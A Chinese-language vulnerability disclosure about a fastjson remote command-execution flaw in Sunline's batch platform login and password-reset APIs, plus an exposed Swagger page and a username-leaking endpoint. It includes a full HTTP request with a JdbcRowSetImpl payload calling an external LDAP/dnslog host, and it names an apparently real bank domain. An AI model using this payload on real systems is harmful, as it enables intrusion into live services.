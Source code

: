 长亮sunline跑批平台接口存在fastjson命令执行漏洞
漏洞地址：https://xxxxxxx/loader/api/uiAuth/login
         https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞
漏洞详情：
1、接口存在fastjson命令执行漏洞
![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)
POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1
Host: xxxxxx.com.ph
Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://bk-assistant.ownbank.com.ph/
Content-Type: application/json
If-Modified-Since: 0
Content-Length: 129
Origin: https://bk-assistant.ownbank.com.ph
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题
https://xxxxxxx.com.ph/swagger-ui.html
![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)
https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名
![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：版本未知（没有版本概念）
修复建议：
1、升级到最新版本。
2、接口敏感信文档做鉴权。
